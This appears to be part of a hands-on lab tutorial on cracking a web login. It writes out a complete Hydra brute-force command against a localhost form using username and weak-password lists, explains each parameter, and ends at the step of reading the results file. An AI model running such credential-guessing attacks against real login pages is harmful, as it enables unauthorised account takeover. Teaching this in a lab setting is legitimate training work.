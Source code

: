 
## Part 4: Executing the Attack

### Hydra Attack Command

```bash
hydra -L ~/project/usernames.txt \
      -P ~/project/500-worst-passwords.txt \
      localhost \
      -s 8080 \
      http-post-form "/:username=^USER^&password=^PASS^:Invalid username or password" \
      -o ~/project/hydra_results.txt
```

### Command Breakdown

| Parameter | Description |
|-----------|-------------|
| `-L` | Username list file |
| `-P` | Password list file |
| `localhost` | Target host |
| `-s 8080` | Target port |
| `http-post-form` | Attack protocol |
| `/:username=^USER^&password=^PASS^` | Form parameters |
| `:Invalid username or password` | Failure detection string |
| `-o` | Output file |

### How It Works

1. Hydra replaces `^USER^` with usernames from list
2. Replaces `^PASS^` with passwords from list
3. Tries all combinations systematically
4. Identifies success by absence of failure string
5. Saves valid credentials to output file

**Total Attempts:** 3 users × 500 passwords = 1,500 attempts

---

## Attack Results

### Reading Results

```bash
cat ~/project/hydra_results.txt
```

